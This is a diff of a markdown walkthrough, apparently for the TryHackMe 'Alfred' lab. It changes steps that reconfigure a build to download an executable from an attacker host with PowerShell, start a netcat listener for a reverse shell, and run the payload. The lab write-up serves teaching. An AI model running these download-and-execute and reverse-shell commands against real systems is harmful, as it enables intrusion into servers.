

alfred

diff --git a/alfred.md b/alfred.md
@@ -88,10 +88,18 @@ Alter the configuration of the build to transfer the new payload.
 The command looks like: 
 `:> powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`
 
-`:> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.67.123.179:9000/robin.exe','robin.exe')"`
+`:> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.67.123.179:8000/robin.exe','robin.exe')"`
 
 ![Reconfigure](/assets/alfred-12.png)
+
+Restart listener to receive the incoming reverse shell: `:> nc -lvnp 8000`
 
 When the build runs, the file is transferred and can be found in the workspace.  
 
 ![Post-Build](/assets/alfred-13.png)
+
+![Post-Build 2](/assets/alfred-14.png)
+
+***Run the payload*** 
+
+`:> Start-Process robin.exe`